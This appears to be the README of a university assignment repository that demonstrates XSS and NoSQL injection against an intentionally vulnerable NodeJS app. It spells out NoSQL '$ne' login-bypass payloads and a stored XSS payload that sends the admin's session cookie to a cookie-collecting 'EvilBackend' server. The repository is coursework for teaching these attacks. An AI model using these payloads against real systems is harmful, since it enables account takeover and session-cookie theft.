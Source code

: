 # ISEC3004-Assignment<br>
<br>
## Introduction<br>
This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
<br>
index.html - Main page for the website<br>
<br>
Backend - Backend Server<br>
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
npm install<br>
nodemon index.js<br>
<br>
EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
npm install<br>
nodemon index.js<br>
<br>
<br>
NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>
"password": {"$ne": null} <br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>
"email": {"$ne": null}, "password": {"$ne": null}<br>
<br>

XSS - XSS Attack<br>
When a user account is created with a XSS payload such as: <br>
`<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>` as the name.<br>
<br>
The payload will be executed when the Administrator of the system loads the admin page. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>